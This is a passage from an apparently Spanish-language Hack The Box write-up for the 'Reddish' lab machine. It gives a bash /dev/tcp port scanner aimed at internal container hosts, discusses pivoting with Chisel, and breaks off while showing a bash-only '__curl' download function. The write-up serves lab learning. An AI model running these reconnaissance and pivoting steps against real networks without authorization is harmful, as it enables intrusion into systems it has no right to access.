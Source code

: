 ![](/assets/images/htb-writeup-reddish/hosts_activos.png)

Despues de esto toca descubrir los puertos. Escanearemos los primeros 10000:
```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n[!] Saliendo...\n"
	tput cnorm;exit 1
}

# Ctrl + C
trap ctrl_c INT

hosts=(172.18.0.1 172.18.0.2 172.19.0.1 172.19.0.2 172.19.0.3 172.19.0.4)
tput civis
for host in ${hosts[@]}; do
	echo -e "Escaneando puertos del host $host: "
	for port in $(seq 1 10000); do
		timeout 1 bash -c "(echo '' > /dev/tcp/$host/$port)" 2>/dev/null && echo -e "[+] Puerto $port - Abierto" &
	done; wait
done
tput cnorm

```
![](/assets/images/htb-writeup-reddish/puertos_activos.png)

Con esto podemos sacar varias conclusiones y es que la máquina Reddish estaba exponiendo el puerto 1880 a través de un contenedor y que tenemos 2 hosts interesantes: **172.19.0.4 172.19.0.2** La primera con el puerto 80 abierto y la segunda con el 6379. Por lo que es hora de usar **Chisel** para traernos esos puertos y poder enumerarlos.
<br>[Descargar Chisel](https://github.com/jpillora/chisel)<br>
Como el contenedor no posee ni **wget** ni **curl** podemos usar un recurso muy bueno para crearnos nuestra propia funcion **__curl** o **__wget**: [Enlace al código](https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et). Solo tendremos que copiar el código directamente en la consola. Yo usaré el de curl:
```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
```